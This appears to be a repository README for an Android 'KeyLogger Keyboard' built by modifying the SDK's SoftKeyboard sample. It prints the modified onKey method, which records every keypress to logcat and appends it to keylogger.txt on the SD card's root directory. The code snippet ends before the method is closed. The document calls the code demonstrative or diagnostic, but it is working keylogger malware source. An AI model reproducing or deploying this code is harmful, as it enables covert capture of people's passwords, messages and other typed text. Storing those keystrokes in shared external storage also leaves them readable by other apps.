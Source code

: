 #Android KeyLogger Keyboard

This is a simple modification to the SoftKeyboard sample that is included with the Android SDK. It adds a keylogger that writes output to the root directory of the SD Card (for easy access). This is provided for demonstration / diagnostic purposes only.

The only real change here is to the onKey method of the SoftKeyboard class:

    public void onKey(int primaryCode, int[] keyCodes) {
    	String keypress = String.valueOf((char)primaryCode);
    	Log.d("Key Pressed",keypress);
    	try{
        	String SDCARD = Environment.getExternalStorageDirectory().getAbsolutePath();
        	String FILENAME = "keylogger.txt";

    		File outfile = new File(SDCARD+File.separator+FILENAME);
    		FileOutputStream fos = new FileOutputStream(outfile,true);
    		fos.write(keypress.getBytes());
    		fos.close();
    	}catch(Exception e) {
    		Log.d("EXCEPTION",e.getMessage());
    	}
